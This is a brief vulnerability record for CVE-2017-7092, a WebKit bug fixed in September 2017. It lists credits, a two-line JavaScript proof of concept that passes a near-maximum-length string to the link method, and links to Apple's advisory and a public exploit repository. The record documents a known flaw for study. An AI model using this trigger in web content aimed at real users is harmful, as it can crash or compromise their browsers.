 # CVE-2017-7092

- Fix: Sep 2017
- Credit: Samuel Gro and Niklas Baumstark working with ZDI, Qixun Zhao of Qihoo 360 Vulcan Team

## PoC

```javascript
var s = 'x'.repeat(0x7fffffff);
s.link(s);
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT208116)
- [Exploit](https://github.com/xuechiyaobai/CVE-2017-7092-Exploit)
